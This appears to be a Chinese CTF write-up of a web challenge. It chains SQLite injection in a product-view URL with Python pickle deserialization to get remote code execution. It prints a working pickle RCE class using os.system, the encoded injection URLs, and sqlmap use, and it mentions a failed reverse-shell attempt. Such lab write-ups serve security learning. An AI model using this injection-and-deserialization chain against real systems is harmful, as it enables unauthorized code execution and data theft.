









给的target为157.245.43.189:31047



然后浏览器访问一下，发现是个web服务



有一个主页面和商品详情页面。

因为提供了源码，所以没有路径扫描，直接看源码，就只有两个web界面。



商品详情页面的url为， http://157.245.43.189:31047/view/1，通过修改最后的数字来显示不同的商品。



第一个想到的就是sqli，这里的数据库是sqlite，通过单引号闭合注入。

`1' order by 1--` 正常显示

`1' order by 2--` 报错

`1' and 1=1 union select 1 --` 报错

bool类型的注入

直接上sqlmap

数据库中只有业务内容，有两个表，其中一个保存了4个商品的信息，没有其他的东西，无法继续。

回到源码看看。





注入点的代码如上。


试试ssti，也不行。继续翻源码，在最初构建数据库的时候使用了pickle进行反序列化。那么猜测通过python的反序列化进行利用



python pickle反序列化的利用方法如下：

https://davidhamann.de/2020/04/05/exploiting-python-pickle/


因此这里可以通过拼接sql语句，无效化前面的商品i，利用union select 将反序列化的payload传入利用。


那么构建poc

```python
import pickle
import base64
import os

payload = 'cp flag.txt application/static/.'

class RCE:
    def __reduce__(self):
        return os.system, (payload,)

if __name__ == '__main__':
    print(base64.urlsafe_b64encode(pickle.dumps(RCE())).decode('ascii'))

```

这里有一个问题，同样的python在win和linux下输出的payload不一样，详情见文章——。

这里需要在linux执行。

我们将flag的路径直接复制到static中，这样就可以在web端直接访问展示flag了。

poc为

```bash
http://157.245.43.189:31047/view/'%20UNION%20SELECT%20'gASVOwAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjCBjcCBmbGFnLnR4dCBhcHBsaWNhdGlvbi9zdGF0aWMvLpSFlFKULg=='%20--

或者

http://157.245.43.189:31047/view/'%20UNION%20SELECT%20'gASVOwAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjCBjcCBmbGFnLnR4dCBhcHBsaWNhdGlvbi9zdGF0aWMvLpSFlFKULg==
```

**重点在于view后面不跟商品id，这样进入反序列化的就是后面的payload了。**

触发之后返回如下。



这样说明反序列化是执行成功了的。

如果返回使用windows下生成的payload，则会报500。


访问static/flag.txt，得到flag




## 反弹shell

不知道是这道题的问题还是网络的问题

在kali上始终没办法成功反弹，构造payload利用ping和curl尝试触达kali机器，也失败。因此网络问题可能是无法反弹shell的原因。
